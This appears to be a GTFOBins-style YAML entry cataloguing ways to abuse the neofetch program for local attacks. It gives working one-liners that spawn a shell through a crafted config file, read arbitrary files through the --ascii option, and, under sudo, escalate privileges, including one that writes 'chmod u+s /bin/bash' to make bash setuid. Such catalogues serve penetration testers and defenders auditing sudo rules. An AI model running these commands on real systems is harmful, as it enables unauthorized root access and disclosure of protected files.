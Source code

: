 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec /bin/sh' >$TF
        neofetch --config $TF
  file-read:
    - description: The file content is used as the logo while some other information is displayed on its right, thus it might not be suitable to read arbitray binary files.
      code: |
        LFILE=file_to_read
        neofetch --ascii $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo neofetch --ascii $LFILE
    - code: |
        export XDG_CONFIG_HOME=$HOME/.config
        echo "chmod u+s /bin/bash" > $XDG_CONFIG_HOME/neofetch/config.conf
        sudo neofetch \"\"
    - code: |
        TF=$(mktemp)
        echo 'exec /bin/sh' >$TF
        sudo neofetch --config $TF
---
```

